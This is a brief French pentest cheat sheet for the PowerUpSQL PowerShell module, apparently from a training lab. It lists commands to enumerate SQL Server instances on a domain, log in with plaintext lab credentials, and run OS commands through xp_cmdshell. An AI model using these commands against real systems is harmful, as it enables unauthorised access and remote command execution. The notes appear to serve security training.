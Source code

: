 

https://github.com/NetSPI/PowerUpSQL

https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet


Importer le module

```powershell
Import-Module .\PowerUpSQL.ps1
```

Afficher les machines ayant le service SQL sur le domaine

```powershell
Get-SQLInstanceDomain
```

S'authentifier à la DB et afficher la version

```powershell
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

Commande avec xp_cmshell

```powershell
Invoke-SQLOSCmd -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -command 'whoami' -Verbose
```

